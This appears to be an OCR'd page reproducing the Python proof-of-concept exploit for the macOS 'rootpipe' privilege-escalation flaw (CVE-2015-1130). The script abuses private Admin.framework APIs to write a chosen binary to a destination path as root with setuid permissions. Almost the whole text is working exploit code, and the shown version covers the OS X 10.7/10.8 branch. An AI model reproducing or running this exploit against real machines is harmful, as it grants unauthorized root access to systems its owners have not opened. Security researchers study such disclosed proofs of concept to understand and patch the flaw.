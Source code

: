 0x04 EXP
=====

```
########################################################
#
#  PoC exploit code for rootpipe (CVE-2015-1130)
#
#  Created by Emil Kvarnhammar, TrueSec
#
#  Tested on OS X 10.7.5, 10.8.2, 10.9.5 and 10.10.2
#
########################################################
import os
import sys
import platform
import re
import ctypes
import objc
import sys
from Cocoa import NSData, NSMutableDictionary, NSFilePosixPermissions
from Foundation import NSAutoreleasePool

def load_lib(append_path):
    return ctypes.cdll.LoadLibrary("/System/Library/PrivateFrameworks/" + append_path);

def use_old_api():
    return re.match("^(10.7|10.8)(.\d)?$", platform.mac_ver()[0])


args = sys.argv

if len(args) != 3:
    print "usage: exploit.py source_binary dest_binary_as_root"
    sys.exit(-1)

source_binary = args[1]
dest_binary = os.path.realpath(args[2])

if not os.path.exists(source_binary):
    raise Exception("file does not exist!")

pool = NSAutoreleasePool.alloc().init()

attr = NSMutableDictionary.alloc().init()
attr.setValue_forKey_(04777, NSFilePosixPermissions)
data = NSData.alloc().initWithContentsOfFile_(source_binary)

print "will write file", dest_binary

if use_old_api():
    adm_lib = load_lib("/Admin.framework/Admin")
    Authenticator = objc.lookUpClass("Authenticator")
    ToolLiaison = objc.lookUpClass("ToolLiaison")
    SFAuthorization = objc.lookUpClass("SFAuthorization")

    authent = Authenticator.sharedAuthenticator()
    authref = SFAuthorization.authorization()

    # authref with value nil is not accepted on OS X <= 10.8
    authent.authenticateUsingAuthorizationSync_(authref)
    st = ToolLiaison.sharedToolLiaison()
    tool = st.tool()
    tool.createFileWithContents_path_attributes_(data, dest_binary, attr)
```